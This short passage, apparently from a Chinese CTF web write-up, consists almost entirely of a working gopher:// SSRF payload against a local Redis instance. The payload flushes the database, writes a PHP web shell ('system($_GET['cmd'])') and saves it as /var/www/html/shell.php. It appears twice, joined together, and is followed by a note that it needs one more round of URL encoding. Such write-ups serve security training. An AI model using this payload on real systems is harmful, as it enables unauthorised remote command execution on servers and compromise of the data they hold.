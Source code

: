 ```c
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2434%0D%0A%0A%0A%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0Agopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2434%0D%0A%0A%0A%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```

payload需要再进行一次url编码

![img](CTF_web.assets/1689445973347-88b9dac1-ab6c-4188-9720-47a580066a91.png)
